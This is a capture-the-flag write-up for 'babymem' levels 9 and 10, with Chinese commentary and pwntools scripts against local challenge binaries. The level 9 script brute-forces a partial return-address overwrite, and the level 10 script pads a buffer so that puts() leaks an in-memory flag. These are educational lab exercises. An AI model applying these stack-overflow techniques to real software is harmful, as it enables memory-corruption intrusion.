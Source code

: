 ```python

elf = ELF("/challenge/babymem_level9.0")
while True:
    p = process("/challenge/babymem_level9.0")
    p.sendline("90")
    output = p.recvuntil("Send your payload (up to 90 bytes)!").decode("utf-8")
    print(output)

    i = 0 
    while i < 64  + 4 + 2 + 1: # 64 为buffer_size , 4是n变量前面的空字节数, 2是覆盖的返回值字节数, 1是n变量
        if i == 64 + 4:
            p.send(b'\x57')
        elif i == 70:
            p.send(b'\x1c')
        elif i == 69:
            p.send(b'\x62')
        else:
            p.send(b'\xBB')
        i += 1

    p.interactive()
    output = p.recvall().decode("utf-8")
    if "pwn" in output:
        print(output)
        exit()
```

## level 10

这一关，程序将`flag`文件的内容读取到了内存中，而且最后有`puts()`函数负责打印`buf`缓冲区中的内容，所以我们只需要填充flag具体内容之前的部分为`A`即可。注意不要发送`\x00`，这样`puts()`打印时，会将之前存储在`buf`中的`flag`一起打印出来。

```asm

-0x180 ---> &buffer
-0x188 ---> &flag
-0x180 ---> buf   输入的字符串



-0x180 + 0x6B --> flag的具体内容

0x000 ----> 旧的rbp指针  

```


```python
from pwn import *

elf = ELF("/challenge/babymem_level10.0")

p = process("/challenge/babymem_level10.0")
p.sendline("107")

buffer_size = 107
payload = buffer_size * b'A'
p.send(payload)
p.interactive()
```
